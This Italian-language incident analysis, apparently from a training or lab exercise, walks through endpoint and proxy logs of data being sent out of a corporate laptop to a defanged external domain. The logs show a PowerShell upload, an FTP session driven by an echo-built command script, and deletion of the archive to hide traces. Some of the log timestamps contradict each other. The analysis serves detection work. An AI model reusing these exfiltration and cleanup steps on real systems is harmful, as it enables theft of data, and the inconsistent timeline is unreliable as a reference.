

# Logs 
Network & Endpoint Logs



# Ricognizione
```
└── 11:05:03 PROXY01 ... suspicious GET http://external-storage[.]cc/storage/credentials[.]txt (da 10.20.14.55)
```
Alle 11:05:03 il primo passo di ricognizione, un client interno (IP 10.20.14.55) contatta tramite Proxy01 il dominio sospetto external-storage.cc, chiedendo un file chiamato `credentials.txt`. Questo tipo di richiesta serve all’attaccante per verificare se il server C2 è attivo e pronto a ricevere dati. È come un “ping” iniziale per stabilire contatto.
Subito dopo inizia la vera esfiltrazione dei dati.

# Metodo di Esfiltrazione 1 ( PowerShell HTTP PUT)
```
└── 11:05:25 powershell.exe (User a.wilson, parent=explorer.exe) ... PUT data.zip to external-storage.cc
     └── 11:05:27 FileCreate ... data.zip scritto (SHA256=A3B1C…)
     └── 11:05:35 TCP connect ... 198.51.100.12:80
     └── 11:05:37 PROXY01 POST ... data.zip 65 KB to external-storage.cc
     └── 11:05:52 cmd.exe cleanup ... cancella data.zip (child of powershell)
```
La prima tecnica di esfiltrazione è stata realizzata con PowerShell, sfruttando la capacità del comando di interagire con server remoti. Alle 11:05:25, powershell.exe (PID 6120, utente CORP\a.wilson, avviato da explorer.exe) ha tentato di caricare un file chiamato `data.zip` sul dominio `external-storage.cc` utilizzando il metodo HTTP PUT. In realtà, in quel preciso istante, il file non esisteva ancora... il comando ha solo avviato il processo di preparazione.

Solo due secondi dopo, alle 11:05:27, Sysmon registra la creazione del file data.zip, completo di hash SHA256, segno che i dati interni sono stati raccolti e compressi in un archivio pronto per la trasmissione. Poi, lo stesso processo apre una connessione TCP verso l’indirizzo remoto `198.51.100.12:80`, e poco dopo il proxy aziendale (PROXY01) conferma un’operazione di HTTP POST da 65 KB diretta al dominio esterno. Questo rappresenta l’effettiva uscita dei dati dall’ambiente interno.

Infine, alle 11:05:52, un nuovo processo cmd.exe, generato come figlio di powershell.exe, esegue un comando di eliminazione di data.zip dal disco. Chiaramente è un passo di cleanup, volto a cancellare tracce locali e rendere più difficile l’analisi forense.


# Metodo di Esfiltrazione 2  (Client FTP)
```
└── 11:05:41 ftp.exe -s:ftp_commands.txt external-storage.cc (spawned post-cleanup)
     └── 11:05:42 / 11:05:45 ... handle + accesso a data.zip
     └── 11:05:49 TCP connect ... external-storage.cc:21
     └── 11:06:25 FileCreate ... ftp_commands.txt (istruzioni FTP)
     └── 11:06:33 cmd.exe ... scrive batch script FTP (parent=ftp.exe)
```
Alle 11:05:41 viene eseguito il process ftp.exe con il parametro `-s:ftp_commands.txt`. Questo significa che l’attaccante non digita i comandi a mano, ma usa un file di script che contiene tutte le istruzioni necessarie. Così l’FTP lavora in automatico e silenziosamente.
Subito dopo, tra le 11:05:42 e le 11:05:45, i log di sicurezza mostrano che ftp.exe ha richiesto un handle e ha letto il file data.zip. In pratica, sta aprendo il file per prepararlo al trasferimento. 

Poi Sysmon registra una connessione TCP verso external-storage.cc sulla porta 21, che è la porta standard del protocollo FTP. Questo conferma che la sessione FTP è stata effettivamente stabilita con il server esterno.
11:06:25, viene creato un nuovo file `ftp_commands.txt`, questa volta generato automaticamente. È uno script con comandi come open `external-storage.cc, user anon, put data.zip, e infine bye`. Questo tipo di file serve a dire al client FTP di aprire la connessione, accedere con utente anonimo e caricare il file senza interazione umana.

11:06:33, infatti, un nuovo cmd.exe scrive un secondo script FTP, stavolta con istruzioni per caricare anche `data2.zip`. Questo mostra come l’attaccante stia usando più tentativi, diversificando i metodi di esfiltrazione per aumentare le chance di successo.

# Metodo di Esfiltrazione 3 ( Automazione Batch / Second File)

```
└── 11:06:33 cmd.exe (batch automation) 
     └── 11:06:37 FileCreate ... data2.zip
     └── 11:06:41 TCP connect ... external-storage.cc:21
     └── 11:06:45 FileCreate ... data2.zip confermato (secondo metodo di esfiltrazione)
     └── 11:06:59 RegistryValueSet ... HKCU\Software\Corp\LastExfil = external-storage.cc (execution marker)
```
Alle 11:06:37 i log mostrano la creazione di un nuovo file chiamato data2.zip. l’attaccante non si limita a un solo file, ma prepara un ulteriore archivio da inviare al server esterno. Subito dopo, il processo cmd.exe stabilisce una connessione TCP verso il dominio `external-storage.cc ` utilizzando la porta 21, che è quella standard del protocollo FTP. Questo significa che il file appena creato è destinato ad essere trasferito tramite una sessione FTP.

Un elemento interessante è che poco prima, tra le 11:06:25 e le 11:06:33, viene creato un nuovo file `ftp_commands.txt`. Non si tratta di un file scritto manualmente, ma di uno script generato direttamente da cmd.exe usando comandi `echo`. Dentro questo script ci sono le istruzioni per aprire la connessione FTP, accedere con utente anonimo, caricare il file data2.zip e infine chiudere la sessione con un comando di uscita. In questo modo l’attaccante non deve digitare nulla, tutto avviene in automatico e silenziosamente.

Alle 11:06:45, i log segnalano nuovamente la creazione di data2.zip, probabilmente perché il file è stato copiato o riscritto durante il processo di upload. Questo mostra che l’attaccante ha predisposto un meccanismo ridondante per assicurarsi che il file fosse effettivamente pronto al trasferimento. 

Infine, Sysmon registra una modifica al Registro di Windows...la chiave `HKCU\Software\Corp\LastExfil` viene aggiornata con il valore `“2025-08-22T11:05:37 external-storage.cc”`. significa che l’attaccante tiene traccia delle esfiltrazioni completate, lasciando un piccolo segno interno che funge da checkpoint per futuri attacchi o per evitare duplicazioni.


# 


```
 └── 11:06:08 Security 4634 ... User a.wilson logoff
 └── 11:10:05 Security 4625 ... Tentativo fallito di logon (possible account lockout)
```
Alla fine delle attività di esfiltrazione, i log mostrano la chiusura della sessione dell’utente. Alle 11:06:08, l’account a.wilson effettua un logoff interattivo dal portatile WIN10-LAPTOP, segnalato come Security EventID 4634. indica che l’attaccante, o lo script usato, ha terminato la sessione probabilmente per nascondere meglio le tracce o per chiudere l’attività senza lasciare processi attivi in memoria. Poco dopo, alle 11:10:05, compare un tentativo di accesso fallito con lo stesso account, CORP\a.wilson, che genera un Security EventID 4625. Questo evento potrebbe indicare che l’account è stato bloccato dopo gli abusi.


